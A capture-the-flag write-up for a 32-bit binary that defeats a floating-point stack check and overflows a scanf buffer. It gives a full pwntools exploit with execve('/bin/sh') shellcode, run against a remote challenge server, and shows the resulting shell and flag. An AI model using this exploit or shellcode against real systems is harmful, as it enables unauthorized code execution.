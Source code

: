 ### Solved by superkojiman

We're given a 32-bit binary. The decompiled main() function looks simple:

```c
int main(int argc, const char **argv, const char **envp)
{
  int buf;
  double N;

  N = 64.33333;
  setvbuf(stdout, 0, 2, 0);
  printf("Buff: %p\n", &buf);
  __isoc99_scanf("%s", &buf);
  if ( 64.33333 != N )
  {
    puts("Nope");
    exit(1);
  }
  return printf(str, &buf);
}
```

N overwritten at offset 128
EIP overwritten at offset 148

A couple of checks are done:

```plain
=> 0x8048583 <main+102>:    fld    QWORD PTR [esp+0x98]
   0x804858a <main+109>:    fld    QWORD PTR ds:0x8048690
   0x8048590 <main+115>:    fucomip st,st(1)
   0x8048592 <main+117>:    fstp   st(0)

and

   0x8048596 <main+121>:    fld    QWORD PTR [esp+0x98]
   0x804859d <main+128>:    fld    QWORD PTR ds:0x8048690
   0x80485a3 <main+134>:    fucomip st,st(1)
   0x80485a5 <main+136>:    fstp   st(0)
   0x80485a7 <main+138>:    je     0x80485c1 <main+164>
```
   
The second one needs to pass in that st1 must match st0:

```
st0            64.333330000000003678906068671494722 (raw 0x400580aaaa3ad18d2800)
```

We can get the correct value by doing x/gx $esp+0x98 during a normal run. It's a double, therefore a 64-bit value. This overwrites it correctly:

```python
buf = "" 
buf += "z"*22
buf += "A"*106

buf += p32(0x475a31a5)
buf += p32(0x40501555)

buf += "B"*12
buf += p32(0x43434343)

f = open ("in.txt", "w")
f.write(buf)
f.close()
```

The binary prints out the buffer containing our payload so we just need to return there. However it has a bad character 0xb which happens to be sys_execve that needs to be in eax. So we need to tweak our shellcode a bit. Basically we set eax to 0x1c and then do a "sub eax,0x11" to fix it. Final exploit:

```python
#!/usr/bin/env python
from pwn import *

r = remote("54.173.98.115", 1259)

addr =  r.recv().split("Buff: ")[1]
print "payload at", addr

sc = (
"\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x1c\x58"
"\x83\xE8\x11"
"\x99\xcd\x80"
)

buf = ""
buf += sc
buf += "A"*103

buf += p32(0x475a31a5)
buf += p32(0x40501555)

buf += "B"*12
buf += p32(int(addr, 16))

f = open ("in.txt", "w")
f.write(buf)
f.close()

r.sendline(buf)
print r.recv()
r.interactive()
```

The result:

```plain
# ./sploit.py 
[+] Opening connection to 54.173.98.115 on port 1259: Done
payload at 0xffa3e918

Got jhh///sh/bin\x89�1�j\x1cX\x83��̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa51ZGU\x15P@BBBBBBBBBBBB\x18���

[*] Switching to interactive mode
$ id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
$ ls
flag
precision_a8f6f0590c177948fe06c76a1831e650
$ cat flag
flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}
```
